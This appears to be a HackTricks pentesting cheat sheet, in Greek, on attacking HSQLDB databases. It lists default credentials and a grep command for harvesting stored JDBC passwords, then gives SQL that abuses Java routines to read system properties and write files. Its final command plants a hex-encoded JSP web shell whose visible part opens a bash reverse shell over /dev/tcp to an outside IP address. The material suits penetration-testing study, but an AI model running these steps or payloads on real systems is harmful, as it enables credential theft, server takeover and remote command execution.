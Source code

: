 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Basic Information

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** είναι το κορυφαίο σύστημα σχεσιακής βάσης δεδομένων SQL γραμμένο σε Java. Προσφέρει μια μικρή, γρήγορη, πολυνηματική και συναλλαγματική μηχανή βάσης δεδομένων με πίνακες μνήμης και δίσκου και υποστηρίζει ενσωματωμένες και διακομιστικές λειτουργίες.

**Default port:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Πληροφορίες

### Προεπιλεγμένες Ρυθμίσεις

Σημειώστε ότι από προεπιλογή αυτή η υπηρεσία πιθανώς εκτελείται στη μνήμη ή είναι συνδεδεμένη στο localhost. Αν το βρήκατε, πιθανώς εκμεταλλευτήκατε μια άλλη υπηρεσία και ψάχνετε να κλιμακώσετε τα δικαιώματα.

Οι προεπιλεγμένες διαπιστεύσεις είναι συνήθως `sa` με κενό κωδικό πρόσβασης.

Αν έχετε εκμεταλλευτεί μια άλλη υπηρεσία, αναζητήστε πιθανές διαπιστεύσεις χρησιμοποιώντας
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
Σημειώστε προσεκτικά το όνομα της βάσης δεδομένων - θα το χρειαστείτε για να συνδεθείτε.

# Συλλογή Πληροφοριών

Συνδεθείτε στην DB instance κατεβάζοντας το [HSQLDB](https://sourceforge.net/projects/hsqldb/files/) και εξάγοντας το `hsqldb/lib/hsqldb.jar`. Εκτελέστε την εφαρμογή GUI \(eww\) χρησιμοποιώντας `java -jar hsqldb.jar` και συνδεθείτε στην instance χρησιμοποιώντας τα ανακαλυφθέντα/αδύναμα διαπιστευτήρια.

Σημειώστε ότι το URL σύνδεσης θα μοιάζει κάπως έτσι για ένα απομακρυσμένο σύστημα: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Τέχνες

## Ρουτίνες Γλώσσας Java

Μπορούμε να καλέσουμε στατικές μεθόδους μιας κλάσης Java από το HSQLDB χρησιμοποιώντας Ρουτίνες Γλώσσας Java. Σημειώστε ότι η καλούμενη κλάση πρέπει να είναι στο classpath της εφαρμογής.

Οι JRTs μπορούν να είναι `functions` ή `procedures`. Οι συναρτήσεις μπορούν να καλούνται μέσω SQL δηλώσεων αν η μέθοδος Java επιστρέφει μία ή περισσότερες SQL-συμβατές πρωτότυπες μεταβλητές. Καλούνται χρησιμοποιώντας τη δήλωση `VALUES`.

Αν η μέθοδος Java που θέλουμε να καλέσουμε επιστρέφει void, πρέπει να χρησιμοποιήσουμε μια διαδικασία που καλείται με τη δήλωση `CALL`.

## Ανάγνωση Ιδιοτήτων Συστήματος Java

Δημιουργήστε συνάρτηση:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
Εκτέλεση συνάρτησης:
```text
VALUES(getsystemproperty('user.name'))
```
Μπορείτε να βρείτε μια [λίστα με τις ιδιότητες του συστήματος εδώ](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## Γράψτε Περιεχόμενο σε Αρχείο

Μπορείτε να χρησιμοποιήσετε το `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java gadget που βρίσκεται στο JDK \(αυτόματα φορτωμένο στο class path της εφαρμογής\) για να γράψετε στοιχεία κωδικοποιημένα σε hex στον δίσκο μέσω μιας προσαρμοσμένης διαδικασίας. **Σημειώστε το μέγιστο μέγεθος των 1024 bytes**.

Δημιουργήστε διαδικασία:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
Εκτέλεση διαδικασίας:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
